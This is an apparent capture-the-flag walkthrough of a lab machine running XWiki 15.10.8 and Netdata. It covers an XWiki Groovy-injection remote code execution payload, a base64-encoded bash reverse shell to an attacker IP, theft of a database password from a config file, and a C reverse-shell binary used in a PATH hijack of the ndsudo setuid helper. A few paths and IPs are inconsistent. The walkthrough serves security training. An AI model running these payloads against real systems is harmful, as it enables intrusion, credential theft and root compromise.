


Let's scan the car
```bash
sudo nmap -v -sC -sV 10.10.11.80 -oN nmap/initial
```
```
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
8080/tcp open http Jetty 10.0.20
|_http-server-header: Jetty(10.0.20)
| http-webdav-scan:
| Server Type: Jetty(10.0.20)
| WebDAV type: Unknown
|_ Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
| http-methods:
| Supported Methods: OPTIONS GET HEAD PROPFIND LOCK UNLOCK
|_ Potentially risky methods: PROPFIND LOCK UNLOCK
| http-cookie-flags:
| /:
| JSESSIONID:
|_ httponly flag not set
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<div style="page-break-after: always;"></div>

Let's go to the site


There is a `Docs` button. Let's click on it



`XWiki Debian 15.10.8` opens. Let's try to find vulnerabilities for it.
There is [XWiki Platform 10/15/10 - Remote Code Execution](https://www.exploit-db.com/exploits/52136).
This exploit has this code block:
```Python
# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"
```
Here's what sent:
```bash
}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}
```
Let's try to follow the link
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d% 7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
```


The `SolrSearch.rss` file is downloaded. If you open it, you will see the contents of `/etc/passwd`



We see that there is a user `oliver`. This information will be needed in the future.
Now you need to run the command
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'
```
to get a reverse shell. For this purpose in
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d% 7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
```
change `println(%22cat%20/etc/passwd%22.execute().text)` to `"bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'"`. To do this, you need to encode this command in `Base64`:
```bash
echo -n "bash -c 'sh -i >& /dev/tcp/10.10.14.177/4444 0>&1'" | base64 -w0
```


```
YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=%
```
The final command looks like this:
```bash
}}}{{async async=false}}{{groovy}}"bash -c {echo,YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=}|{base64,-d}|{bash,-i}".execute(){{/groovy}}{{/async}}'
```
[Let's encode](https://www.urlencoder.org/) it in URL:
```
%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho%2CYmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTA uMTQuMTc3LzQ0NDQgMD4mMSc%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%27
```
We paste the resulting string into **URL**
```bash
curl 'http://wiki.editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho, YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=%7D%7C%7Bb ase64,-d%7D%7C%7Bbash,-i%7D%22.execute()%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D'
```
At the same time we listen port
```bash
sudo ncat -lvnp 4444
```


We got a reverse shell.
Stabilize the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
Enter twice, and
export TERM=xterm
```
There is a file `hibernate.cfg.xml` in `/usr/lib/xwiki/WEB-INF/`. It contained these lines:
```XML
<property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property> 
	<property name="hibernate.connection.username">xwiki</property> 
	<property name="hibernate.connection.password">th--------am99</property> 
	<property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property> 
	<property name="hibernate.dbcp.poolPreparedStatements">true</property> 
	<property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>
```
There is a password
```Password
th--------am99
```
Let's try to connect via **SSH** to `oliver`:


Let's check what services are running locally
```bash
netstat -lntp
```


`Netdata` is running on port `19999`. It has plugins that it can call and execute. Let's see what plugins there are:
```bash
ls -la /opt/netdata/usr/libexec/netdata/plugins.d
```


The `ndsudo` plugin is interesting here. Let's see what it can do:
```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h
```


**set-uid root** is launched, checks whether the user is in the **netdata** group, searches for an "executable file" with the name specified in the **Executables** section of the **regular `PATH`** rule, forms the final `<executable> <Parameters>` line and executes it from **root**.

That is, you need to create a reverse shell, make it **executable**, add it to **PATH** and at the same time call `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

To do this, we will make a reverse shell in `C`:
```C
#include <unistd.h>
int main() {
	setuid(0); setgid(0);
	execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.177/4444 0>&1", NULL);
	return 0;
}
```
Compile `nvme.c`:
```bash
gcc nvme.c -o nvme
```
Send this file to the machine in the directory `/tmp/nvme2`, which we created earlier:
```bash
sudo python3 -m http.server 80
```
Make it executable:
```bash
chmod +x nvme
```
Run the file and listen to the port at the same time:
```bash
PATH=/tmp/pwnbin:$PATH \
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
```bash
sudo ncat -lvnp 4444
```


